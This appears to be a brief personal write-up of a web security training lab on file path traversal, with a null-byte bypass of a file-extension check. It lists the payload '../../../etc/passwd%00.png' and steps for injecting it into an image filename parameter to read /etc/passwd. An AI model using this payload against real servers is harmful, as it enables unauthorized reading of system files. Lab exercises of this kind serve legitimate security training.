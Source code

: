 # Lab 06

## Lab: File path traversal, validation of file extension with null byte bypass

**Vulnerable Path:** ../../../etc/passwd%00.png

**Step-by-step:**
1. Intercept product
2. FORWARD until get vulnerable parameter (.jpg)
3. Replace .jpg with ../../../etc/passwd%00.png
4. Final: /image?filename=../../../etc/passwd%00.png

![f602004a456145f6b8e87ead48c6f210](https://user-images.githubusercontent.com/44063862/106375487-663f5380-63c7-11eb-89b8-1e5fce376276.png)
